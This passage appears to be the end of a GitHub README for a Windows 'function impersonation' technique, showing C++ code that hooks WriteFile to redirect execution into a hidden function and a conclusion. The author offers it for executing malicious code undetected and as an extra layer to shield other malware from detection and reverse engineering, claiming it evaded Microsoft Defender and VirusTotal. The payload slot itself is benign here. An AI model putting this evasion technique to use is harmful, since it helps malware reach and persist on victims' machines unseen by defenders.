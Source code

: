 ```cpp 
// Exported main that utilze hooked WriteFile
__declspec(dllexport) int main() {
    HANDLE hStdOut = ((HANDLE)(LONG_PTR)-2);
    const char* message = "Hello World!";
    OVERLAPPED ovrlpd = { 0 };
    firstJumpContext.Rsp = (DWORD64)RetRSP();
    ovrlpd.hEvent = &FfirstJumpContext;
    BOOL success = WriteFile(hStdOut, message, strlen(message), NULL, &ovrlpd);
    return 0;
}

// where our malicious code can reside hidden 
void actualMain(){
	std::ofstream{ "Hello.txt" };
}
```

## Conclusion
This was the basic idea and implementation of function impersonation to
execute malicious code undetected.
It can be used as is, or as an extra layer mechanism to harden the detection
and reversing of any other malware implementation out there.
Running it against Microsoft Defender on my pc didn't raise any flags as
well as uploading it to virus total (only 2 negligible false positives).

<img width="509" alt="virus_total" src="https://github.com/h3xDum/Kernel32_Impersonation/assets/58906938/8df51c99-ba45-47ac-9381-21ad13a73e09">














































